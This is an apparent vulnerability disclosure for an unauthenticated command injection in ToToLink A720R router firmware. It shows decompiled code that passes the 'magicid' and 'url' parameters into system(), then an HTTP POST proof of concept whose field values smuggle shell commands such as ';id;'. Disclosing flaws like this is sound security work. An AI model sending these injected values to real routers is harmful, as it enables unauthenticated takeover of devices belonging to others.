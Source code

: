 # Command Injection Vulnerability in `magicid` and `url`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | ToToLink A720R Router                                        |
| Firmware Version     | **V4.1.5cu.614_B20230630**                                   |
| Vulnerability Type   | **Unauthenticated Command Injection**                        |
| Vulnerable Component | `cloudupdate_check` (functions using `websGetVar` for `url` & `magicid`, buffers `v15`) |
| Prerequisites        | Remote access to the device's web interface (no authentication required) |

2. Exploitation Path

```c
int __fastcall sub_402414(int a1)
{
  ...
  if ( !strncmp(Var, "3.0", 3)
    && (v3 = websGetVar(a1, "mode", "0"), v4 = atoi(v3), (v5 = v4) != 0)
    && (inifile_set_int("/var/cloudupg.ini", "INFO", "mode", v4), 
        v6 = (const char *)websGetVar(a1, "url", ""), *v6) )
  {
    inifile_set("/var/cloudupg.ini", "INFO", "url", v6);
    v7 = (const char *)websGetVar(a1, "magicid", "");
    v8 = (const char *)websGetVar(a1, "version", "");
    v9 = (const char *)websGetVar(a1, "svn", "");
    snprintf(v15, 256, "echo %s > /tmp/ActionMd5", v7);
    system(v15);
    snprintf(v15, 256, "echo %s > /tmp/DlFileUrl", v6);
    system(v15);
    ...
}
```

3. **Vulnerable Binaries:** `cloudupdate_check`.

4. 0-Day Command Injection Exploitation Path:

   - In the `cloudupdate_check` file, at line 10, `v7 = (const char *)websGetVar(a1, "magicid", "")` receives input and directly performs string concatenation without filtering sensitive characters. The result is concatenated into `system(v15)` at line 14, leading to a command injection vulnerability.

   - In the `cloudupdate_check` file, at line 7, `v6 = (const char *)websGetVar(a1, "url", "")` receives input and directly performs string concatenation without filtering sensitive characters. The result is concatenated into `system(v15)` at line 16, leading to a command injection vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/cloud_update.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 95

Var=3.0&mode=1&url=http://u/&magicid=POC123;id;&version=1.0&svn=100
Var=3.0&mode=1&url=http://u/;ifconfig;&magicid=SAFE&version=1.0&svn=100
```
